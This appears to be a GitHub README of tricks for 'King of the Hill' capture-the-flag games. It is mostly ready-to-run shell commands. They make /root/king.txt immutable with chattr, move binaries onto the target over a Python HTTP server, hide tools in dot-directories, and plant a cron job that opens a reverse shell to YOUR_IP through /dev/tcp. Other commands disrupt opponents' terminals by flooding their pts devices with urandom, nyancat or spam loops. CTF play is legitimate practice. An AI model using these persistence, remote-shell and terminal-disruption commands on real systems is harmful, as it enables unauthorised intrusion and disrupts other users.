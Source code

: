 # KOTH-Tricks
## Make King.txt unwritable
### Using noclobber
```
set -o noclobber /root/king.txt
```
### Using chattr
```
 chattr +ai /root/king.txt
```
If chattr binary is not present on the machine you can download into your machine and after compiling you can upload into KOTH_machine and use it

Downloading into Local Machine
 ```
wget https://github.com/posborne/linux-programming-interface-exercises/blob/master/15-file-attributes/chattr.c
gcc chattr.c -o chattr
```
Uploading to KOTH_machine
```
python3 -m http.server 8080       //on your local machine start a python server
wget http://yourip:port/chattr   //on the KOTH_machine for download the binary
chmod +x chattr
./chattr +ai /root/king.txt
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## Use . for creating hidden directory where you can store your binaries
```
mkdir .hidden_folder
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## Use Cronjobs for automation
### Reverse shell
> Run 'crontab -e' and paste these line
```
* * * * * /bin/sh -i >& /dev/tcp/YOUR_IP/LISTENING_PORT 0>&1
```
### Write to king.txt
```
* * * * * echo "USERNAME" > /root/king.txt >/dev/null 2>&1
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## Breaking opponent shell
### find opponent pts using these commands
```
ps aux | grep pts
who
w
```
### Spam urandom to opponent shell
```
cat /dev/urandom >/dev/pts/#
```
>  NOTE: place opponent pts in place of '#' 
### Using script
```
script -f /dev/pts/#
```
### Using nyancat
Downloading nyancat to local Machine
```
git clone https://github.com/klange/nyancat
cd nyancat/src
make
```
Sending nyancat to KOTH_machine
```
python3 -m http.server 8080        //on your local machine start a python server into 'nyancat/src' folder
wget http://yourip:port/nyancat   //on the KOTH_machine
chmod +x nyancat
./nyancat > /dev/pts/#
```
### Spam your username to opponent shell
```
while true; do echo 'Your_Username' >/dev/pts/#; done 
```
